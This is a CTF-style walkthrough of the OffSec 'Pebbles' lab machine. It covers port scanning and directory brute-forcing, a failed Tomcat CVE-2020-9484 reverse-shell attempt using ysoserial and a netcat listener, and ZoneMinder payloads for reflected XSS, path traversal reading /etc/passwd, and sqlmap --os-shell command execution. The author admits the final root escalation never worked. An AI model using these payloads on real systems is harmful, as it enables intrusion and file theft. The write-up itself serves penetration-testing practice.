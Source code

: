 # Filmsy

***
## Not your average pebble in a pond - a pretty pebble.

## Author: OffSec
## Released on: Aug 03, 2020
## Walkthrough: Yes
***


Running our nmap scan we have

```bash
# Nmap 7.94SVN scan initiated Tue Feb 20 12:15:03 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.239.52
Nmap scan report for 192.168.239.52
Host is up (0.13s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 aa:cf:5a:93:47:18:0e:7f:3d:6d:a5:af:f8:6a:a5:1e (RSA)
|   256 c7:63:6c:8a:b5:a7:6f:05:bf:d0:e3:90:b5:b8:96:58 (ECDSA)
|_  256 93:b2:6a:11:63:86:1b:5e:f5:89:58:52:89:7f:f3:42 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 7EC7ACEA6BB719ECE5FCE0009B57206B
|_http-title: Pebbles
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3305/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
8080/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-favicon: Apache Tomcat
|_http-title: Tomcat
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Feb 20 12:17:35 2024 -- 1 IP address (1 host up) scanned in 152.21 seconds
```



Checking the FTP service running on port `21` we currently don't have permissions to connect via anonymous access also no reliable exploit out there



![](https://i.imgur.com/uXTGfJS.png)



Checking port 80/HTTP we have this login page, also viewing page source doesn't seem to give any reliable information


![](https://i.imgur.com/PbqwyR5.png)


![](https://i.imgur.com/6VeTbF2.png)


Checking the port 3305/HTTP we do have a default apache2 web page, seems cool we could run directory bruteforce on this one :P, anyways page-source doesn't contain juicy information also.


![](https://i.imgur.com/jBd4RFR.png)


Running directory bruteforce with `ffuf` looks like we have nothing really to show there



![](https://i.imgur.com/qEwjEui.png)


Checking port 8080/HTTP we do have a tomcat service running on version `9.0`



![](https://i.imgur.com/cp5PuOs.png)



Reading [this](https://github.com/PenTestical/CVE-2020-9484) i was made to understand there is RCE on this version known as `CVE-2020-9484`, let go ahead and see if we can exploit this


Firstly, you need to download and setup `ysoserial`


```bash
cd /opt

sudo git clone https://github.com/frohoff/ysoserial

sudo wget https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar -O ysoserial-master.jar
```


Then install the script


```bash
git clone https://github.com/PenTestical/CVE-2020-9484 && cd CVE-2020-9484/ ; sudo chmod +x CVE-2020-9484.sh

./CVE-2020-9484.sh --help
```


Then Open the script and replace the IP address as line `13`, with the attacker IP for the reverse shell to work



![](https://i.imgur.com/1VH1YQC.png)



Start up a python server as the script generates a payload to be used in the process of executing our reverse shell


```bash
sudo python3 -m http.server 80
```


Start up your listener also


```bash
nc -nvlp 4444
```


Now run the script with the IP address of the target system you want to attack:


```
./CVE-2020-9484.sh TARGET-IP
```


![](https://i.imgur.com/v02LX1f.png)


Ooops, turns out not to be successful, let enumerate harder :P. Running directory bruteforce on port `80` again with a different word lists, we have a new directory called `/zm`



![](https://i.imgur.com/JoLpYkd.png)



Navigating to the directory on the webpage we have this **Zone Monitor Console** on V1.29.0



![](https://i.imgur.com/Xw2IgGC.png)




Checking for exploits i found this [blog](https://vk9-sec.com/zoneminder-1-291-30-exploitation-multiple-vulnerabilities/) in which all PoC's turned out to be successful, we will look at few though


### **XSS (Reflected)**


Payload -:

```
http://HOST/zm/index.php?view=request&request=log&task=download&key=a9fef1f4&format=texty9fke'<html><head></head><body><script>alert(1)</script></body></html>ayn2h
```


![](https://i.imgur.com/TAmkVIB.png)


### **LFI**

payload


```
http://HOST/zm/index.php?view=file&path=../../../../../../etc/passwd
```



![](https://i.imgur.com/iaUZw5P.png)



### **RCE**



Go ahead and intercept the request of the page with burp suite and save the request to a file as shown below -:


![](https://i.imgur.com/DBUEofV.png)


> Make sure to append `view=request&request=log&task=query&limit=100&minTime=5`


Then go ahead and run `sqlmap` specifying the option that we want a shell



```
❯ sqlmap -r request.txt --dbms mysql --os-shell --data POST
```


Note that this will run for about 10 minutes 😭, Patience!!!, Then you should have a shell


![](https://i.imgur.com/wxRSupR.png)



Running a ping scan we can see our target can truly communicate with us



![](https://i.imgur.com/7BlyjM7.png)

But that is it buddy, yeah that is it, nothing works from here, i have followed walkthroughs for walkthroughs, Nothing works, Normally we are meant to get shell as user `root` from here...



GG



<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>

